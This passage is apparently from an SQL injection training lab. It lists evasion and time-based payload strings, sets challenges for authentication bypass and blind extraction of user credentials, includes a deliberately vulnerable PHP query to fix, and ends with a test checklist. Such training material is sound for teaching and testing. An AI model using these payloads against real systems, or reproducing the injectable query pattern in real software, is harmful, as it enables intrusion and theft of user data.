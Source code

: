 ```sql
-- Scientific notation
' UNION SELECT 1e0, 2e0, 3e0 --
```

### Exercise 6.2: Advanced Evasion
```sql
-- Using functions
' AND CHAR(65)||CHAR(66)||CHAR(67) = CHAR(65)||CHAR(66)||CHAR(67) --

-- Buffer overflow attempts
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 --

-- Time-based with variations
'; DECLARE @q NVARCHAR(4000); SET @q = 'WAITFOR DELAY ''00:00:05'''; EXEC(@q) --
```

## Lab Challenges

### Challenge 1: Authentication Bypass
Bypass the login form without knowing credentials:
- Find the injection point
- Craft a payload to bypass authentication
- Document the vulnerability

### Challenge 2: Data Extraction
Extract all user data from the database:
- Enumerate database structure
- Extract table names
- Dump user credentials
- Do it blindly (no UNION)

### Challenge 3: Secure Code Review
Review and fix the following vulnerable code:
```php
// Vulnerable code
$id = $_GET['id'];
$query = "SELECT * FROM products WHERE id = $id";
$result = mysqli_query($conn, $query);

// Fix this code with multiple defense layers
```

## Testing Checklist

### SQL Injection Test Cases:
- [ ] Integer-based injection
- [ ] String-based injection
- [ ] Blind injection (boolean)
- [ ] Blind injection (time-based)
- [ ] Second-order injection
- [ ] UNION-based injection
- [ ] Error-based injection
- [ ] Out-of-band injection
- [ ] Stacked queries
- [ ] Stored procedure injection
